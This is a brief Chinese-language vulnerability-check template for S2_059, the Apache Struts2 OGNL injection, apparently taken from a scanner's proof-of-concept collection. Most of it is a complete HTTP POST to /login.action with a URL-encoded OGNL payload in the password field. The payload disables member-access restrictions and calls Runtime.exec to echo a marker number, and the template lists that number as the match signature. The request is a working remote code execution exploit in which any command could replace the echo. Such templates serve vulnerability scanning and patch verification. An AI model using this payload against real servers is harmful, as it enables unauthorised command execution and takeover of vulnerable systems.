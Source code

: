 ﻿# S2_059

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /login.action HTTP/1.1
Content-type : application/x-www-form-urlencoded

username=111111&password=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.setExcludedPackageNames%28%27%27%29%29.%28%23ou.setExcludedClasses%28%27%27%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27echo+78468794903108696%27%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23a.getInputStream%28%29%29%29%7D
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_059.poc
